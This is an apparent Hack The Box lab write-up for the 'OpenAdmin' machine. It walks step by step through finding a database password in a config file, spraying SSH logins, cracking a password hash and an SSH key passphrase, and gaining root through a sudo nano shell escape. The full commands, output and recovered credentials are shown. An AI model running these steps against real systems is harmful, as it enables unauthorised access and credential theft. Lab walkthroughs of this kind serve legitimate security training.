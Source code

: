 # 15 - PrivEsc


```bash
www-data@openadmin:/opt/ona$ grep -ri passwd
www/local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',

```

Found a password


```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ cme ssh 10.10.10.171 -u {jimmy,joanna}  -p 'n1nj4W4rri0R!'
SSH         10.10.10.171    22     10.10.10.171     [*] SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
SSH         10.10.10.171    22     10.10.10.171     [+] jimmy:n1nj4W4rri0R! 
```

Credentials:

* jimmy:n1nj4W4rri0R!


# internal group
```bash
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

The user jimmy is a member of internal group.

# internal directory
```bash
jimmy@openadmin:/var/www$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Nov 22  2019 .
drwxr-xr-x 14 root     root     4096 Nov 21  2019 ..
drwxr-xr-x  6 www-data www-data 4096 Nov 22  2019 html
drwxrwx---  2 jimmy    internal 4096 Nov 23  2019 internal
```

Internal group has read write access to files in *internal*. We can potentially write to these files and execute arbitrary code as the other user but I think this is not the intended way.


```bash
jimmy@openadmin:/var/www/internal$ cat main.php 
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
We could move shell_exec up to the top as we have write access but we are not going that path. Hopefully, the intended way is more fun.


# Local port forwarding

```bash
jimmy@openadmin:/var/www/internal$ 
jimmy@openadmin:/var/www/internal$ 
ssh> -L 52846:127.0.0.1:52846
Forwarding port.
```

`Enter` twice and `~C` to get the ssh prompt. -L specifies the local port with respect to the ssh client and the address after that refers to the remote host with respect to the ssh server. 

Any request that goes to my box on port 52846 will be forwarded to the target box on the same port.

![](vx_images/2622910757515.png)

As seen from the screenshot above, localhost:54628 is successfully forwarded through ssh. A login prompt appears, luckily we have the source code.

```bash
jimmy@openadmin:/var/www/internal$ grep password index.php 
         .form-signin input[type="password"] {
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $msg = 'Wrong username or password.';
            <input type = "password" class = "form-control"
               name = "password" required>
```

Password is a sha512 hash. Let's look up the hash against the crackstation's database.

# CrackStation

![](vx_images/4710007861655.png)

We got a match!


* jimmy:Revealed

# main.php
![](vx_images/3924004483195.png)

This private key is protected by a passphrase.


# Passphrase cracked
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ ./ssh2john.py openadmin.key  > hash
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ john hash  -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (openadmin.key)
1g 0:00:01:14 DONE (2021-08-24 18:17) 0.01347g/s 193258p/s 193258c/s 193258C/sa6_123..*7¡Vamos!
Session completed
```

# Shell
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ ssh -l joanna -i openadmin.key 10.10.10.171
Enter passphrase for key 'openadmin.key': bloodninjas
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)                                                                                                                            
                                                                                                                                                                                              
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com      
 * Support:        https://ubuntu.com/advantage 
                                               
  System information as of Tue Aug 24 15:18:30 UTC 2021

  System load:  0.0               Processes:             182
  Usage of /:   32.5% of 7.81GB   Users logged in:       1
  Memory usage: 19%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```


# Sudo

```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Nano is on the list of gtfobins.

https://gtfobins.github.io/gtfobins/nano/


# Nano exploit
```
joanna@openadmin:~$  /bin/nano /opt/priv
^R^X
Command to execute: reset; sh 1>&0 2>&0#   
# id                                                                                    
uid=0(root) gid=0(root) groups=0(root)                                                       
#        
```    
